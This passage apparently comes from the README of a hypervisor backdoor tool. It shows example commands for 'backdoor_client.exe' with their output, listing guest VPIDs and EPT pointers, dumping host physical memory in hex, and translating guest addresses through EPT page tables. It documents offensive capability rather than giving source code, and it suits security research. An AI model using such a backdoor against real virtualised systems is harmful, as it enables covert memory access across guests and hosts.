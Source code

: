 ```
0009: 0xfffff80004250f80
000a: 0xfffff80004251080

...

```

Enumerate running guests:

```
> .\backdoor_client.exe 0 --ept-list
[+] Running on CPU #0
[+] Collecting EPT address list...
[+] Reading collected data from 0x2810...

  #00: VPID = 0x0001, EPT = 0x00000000145f101e
  #01: VPID = 0x0002, EPT = 0x00000000145e601e
  #02: VPID = 0x028d, EPT = 0x000000012800301e
  #03: VPID = 0x0001, EPT = 0x00000000145ed01e
```

Reading physical memory:

```
> .\backdoor_client.exe 0 --phys-read 0x2000 0x100
[+] Running on CPU #0
[+] Reading 0x100 bytes of physical memory at 0x2000
0000000000002000: eb 76 00 00 3f 00 10 20  00 00 00 00 00 00 00 00  | .v..?.. ........
0000000000002010: 00 00 00 00 00 00 00 00  00 00 00 00 00 00 00 00  | ................
0000000000002020: 00 00 00 00 00 9b 20 00  00 00 00 00 00 00 00 00  | ...... .........
0000000000002030: ff ff 00 00 00 93 cf 00  00 00 00 00 00 00 00 00  | ................
0000000000002040: ff ff 00 00 00 9b cf 00  00 00 00 00 00 00 00 00  | ................
0000000000002050: cb 20 00 00 30 00 fd 20  00 00 10 00 00 00 00 00  | . ..0.. ........
0000000000002060: 60 d5 8a 05 00 f8 ff ff  00 a0 7a 00 00 00 00 00  | `.........z.....
0000000000002070: 04 00 00 00 01 00 00 00  fa 66 2b c0 8c c8 8e d8  | .........f+.....
0000000000002080: 66 be 70 00 00 00 67 66  c7 06 01 00 00 00 66 c1  | f.p...gf......f.
0000000000002090: e0 04 66 8b f8 66 67 0f  01 15 04 00 00 00 0f 20  | ..f..fg........
00000000000020a0: c0 66 83 c8 11 0f 22 c0  67 f6 05 74 00 00 00 01  | .f....".g..t....
00000000000020b0: 74 0f 66 b9 a0 01 00 00  0f 32 66 0f ba f2 22 0f  | t.f......2f...".
00000000000020c0: 30 b8 20 00 8e d8 66 67  ff 6f 50 c7 47 70 02 00  | 0. ...fg.oP.Gp..
00000000000020d0: 00 00 0f 20 e0 83 c8 20  0f 22 e0 8b 47 68 0f 22  | ... ... ."..Gh."
00000000000020e0: d8 b9 80 00 00 c0 0f 32  0d 00 01 00 00 0f 30 0f  | .......2......0.
00000000000020f0: 20 c0 0d 00 00 00 80 0f  22 c0 ff 6f 56 8b ff 48  |  ......."..oV..H
```

Translating guest physical address to host physical address:

```
> .\backdoor_client.exe 0 --phys-translate 0x145f1000 0x1d4bf0000
[+] Running on CPU #0
backdoor_phys_translate(): EPT PML4 is at 0x145f1000, VA is 0x1d4bf0000
EPT PML4E 0x145f1000[0x0]: 0x145f9007
EPT PDPTE 0x145f9000[0x7]: 0x150bf007
  EPT PDE 0x150bf000[0xa5]: 0x1d4a000b7

0x00000001d4bf0000 -> 0x00000001d4bf0000
```
